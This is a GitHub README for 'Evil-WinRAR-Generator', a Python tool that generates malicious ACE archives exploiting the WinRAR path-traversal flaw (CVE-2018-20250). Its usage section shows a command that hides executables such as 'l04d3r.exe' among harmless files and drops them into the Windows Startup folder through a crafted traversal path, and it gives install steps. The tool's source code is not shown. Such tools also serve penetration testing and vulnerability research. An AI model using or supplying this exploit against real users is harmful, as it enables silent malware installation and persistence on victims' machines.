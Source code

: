 # Evil-WinRAR-Generator
[![Python 3.6](https://img.shields.io/badge/python-3.6-yellow.svg)](https://www.python.org/downloads/release/python-360/)
 [![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://raw.githubusercontent.com/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@manulqwerty-blue.svg)](https://twitter.com/manulqwerty) 

Generator of malicious Ace files for WinRAR &lt; 5.70 beta 1

Vulnerability by [research.checkpoint.com](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

**Developed by [@manulqwerty - IronHackers](https://ironhackers.es).**

Usage
----
Help:

`./evilWinRAR.py -h`

Generate a malicius archive:
> Rar filename: evil.rar

> Evil path: C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

> Evil files: calc.exe , l04d3r.exe

> Good files: hello.txt , cats.jpeg
```bash
./evilWinRAR.py -o evil.rar -e calc.exe l04d3r.exe -g hello.txt cats.jpeg -p 'C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
```

Instalation
----
You can download Evil-WinRAR-Generator by cloning the [Git](https://github.com/manulqwerty/Evil-WinRAR-Gen.git) repository:
	
```bash
git clone https://github.com/manulqwerty/Evil-WinRAR-Gen.git
cd Evil-WinRAR-Gen && pip install -r requirements.txt
chmod +x evilWinRAR.py
```
	
Evil-WinRAR-Generator works out of the box with [Python](http://www.python.org/download/) version **3.x** on any platform.

Screenshots
----
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/2-4.png)
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/1-4.png)

Credits
----
https://github.com/droe/acefile

https://github.com/WyAtu/CVE-2018-20250
